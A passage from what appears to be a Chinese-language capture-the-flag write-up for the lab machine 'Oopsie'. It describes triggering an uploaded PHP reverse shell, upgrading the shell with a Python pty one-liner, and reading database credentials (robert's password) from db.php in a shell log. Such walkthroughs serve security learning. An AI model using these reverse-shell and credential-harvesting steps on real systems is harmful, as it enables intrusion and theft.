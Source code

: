 ```powershell
Progress: 1918 / 1920 (99.90%)===============================================================
2022/11/28 23:43:21 Finished
===============================================================

```

发现就在uploads文件夹下，但是没有权限访问

尝试是否可以直接运行该目录下的文件，首先开启监听端口

![image-20221129124948049](assets/image-20221129124948049.png)

url输入**http://10.129.207.210/uploads/php-reverse-shell.php**，成功反弹shell。

使用`python3 -c’import pty;pty.spawn(“/bin/bash”)`可以使得shell更加完整。

由于之前端口扫描发现使用的是apache，其默认路径为`/var/www/html`，所以优先寻找该目录下的文件

通过查找网站中的数据库文件发现用户名与密码**robert：M3g4C0rpUs3r!**

```poweshell
www-data@oopsie:/home/robert$ cd /var
^[[3~cd /var
www-data@oopsie:/var$ cd /www
cd /www
bash: cd: /www: No such file or directory
www-data@oopsie:/var$ cd www
cd www
www-data@oopsie:/var/www$ ls
ls
html
www-data@oopsie:/var/www$  cd html
 cd html
www-data@oopsie:/var/www/html$ ls
ls
cdn-cgi  css  fonts  images  index.php	js  themes  uploads
www-data@oopsie:/var/www/html$ cd cdn-cgi           
cd cdn-cgi
www-data@oopsie:/var/www/html/cdn-cgi$ ls
ls
login
www-data@oopsie:/var/www/html/cdn-cgi$ cd login
cd login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cd db.php
cd db.php
bash: cd: db.php: Not a directory
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/var/www/html/cdn-cgi/login$ 

```
